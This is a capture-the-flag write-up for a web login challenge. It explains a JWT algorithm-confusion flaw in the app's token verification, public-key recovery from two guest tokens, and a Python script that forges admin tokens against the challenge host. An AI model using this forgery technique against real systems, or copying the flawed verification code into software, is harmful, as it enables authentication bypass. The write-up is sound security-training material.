



## Simple Login  



We are given a webpage that mainly consists of a login page and an `/admin` endpoint that will print the flag on authentication.  

```js
app.post('/login', requireNoAuthentication, (req, res) => {
    const username = req.body.username;
    const password = req.body.password;
    if (!username || !password) {
        res.status(400);
        res.send('username or password is empty.');
        return;
    }

    const passwordHash = crypto.createHash('sha256').update(password).digest('hex');
    if (!username in accounts) {
        res.status(401);
        res.send('username or password is wrong.');
        return;
    }

    const accountPasswordHash = crypto.createHash('sha256').update(accounts[username]['password']).digest('hex');
    if (!crypto.timingSafeEqual(Buffer.from(passwordHash),
                                Buffer.from(accountPasswordHash))) {
        res.status(401);
        res.send('username or password is wrong.');
        return;
    }

    res.cookie('token', createAccountToken(username), { httpOnly: true });
    res.redirect('/');
});

...

app.get('/admin', (req, res) => {
    if (isAdmin(req.cookies.token) !== true) {
        res.status(404);
        res.send('page not found.');
        return;
    }
    res.send(FLAG);
});
```

The app uses JWT tokens for authentication, and we can immediately spot an algorithm confusion vector in `verifyToken()`, where the RS256 and HS256 both use the RSA public keyas the HMAC secret.  

The public and private key files aren't exposed anywhere, but if we were able to recover the public key, we would be able to forge our own admin token.  

```js
function verifyToken(token) {
    try {
        const alg = jwt.decode(token, { complete: true }).header.alg;
        if (alg === 'RS256') {
            return jwt.verify(token, verificationKey);
        } else if (alg === 'HS256') {
            return jwt.verify(token, verificationKey, { algorithms: ['HS256'] });
        } else if (alg === 'ES256') {
            return jwt.verify(token, verificationKey, { algorithms: ['ES256'] });
        } else {
            return false;
        }
    } catch (error) {
        return false;
    }
}
```

[This article](https://github.com/joaquimserafim/json-web-token/security/advisories/GHSA-4xw9-cx39-r355) details how we can recover the public key using only `2` generated tokens.  

The app already provides a default `guest` account, which is perfect for this attack.  

```js
const accounts = {
    'admin': {
        'password': FLAG
    },
    'guest': {
        'password': 'guest'
    }
};
```

Since the token cookies are `httpOnly`, we have to manually login and extract them from the browser.  



After logging in twice and retrieving `2` unique tokens, we can pass both of them into [jwt_forgery.py](https://github.com/silentsignal/rsa_sign2n/blob/release/standalone/jwt_forgery.py).  

This will recover `4` possible public keys.  



We can just bruteforce all the keys to generate an admin token until one of the tokens succeeds.  

```python
import requests
import os
import jwt

url = "http://host3.dreamhack.games:10328/"

candidates = [f for f in os.listdir("crack") if f.endswith("pem")]

for candidate in candidates:
    print("Trying:", candidate)

    with open(os.path.join("crack", candidate), "rb") as f:
        pub_key = f.read()

    token = jwt.encode(
        payload={ 'username': 'admin' },
        key=pub_key,
        algorithm="HS256"
    )

    res = requests.get(f'{url}/admin', cookies={
        'token': token
    })

    if "not found" not in res.text:
        print(res.text)
```

Flag: `DH{8ffb6790b2bb4248cc63b5e5cd04419109bc9ccd2b951c6e83638b0378c36854}`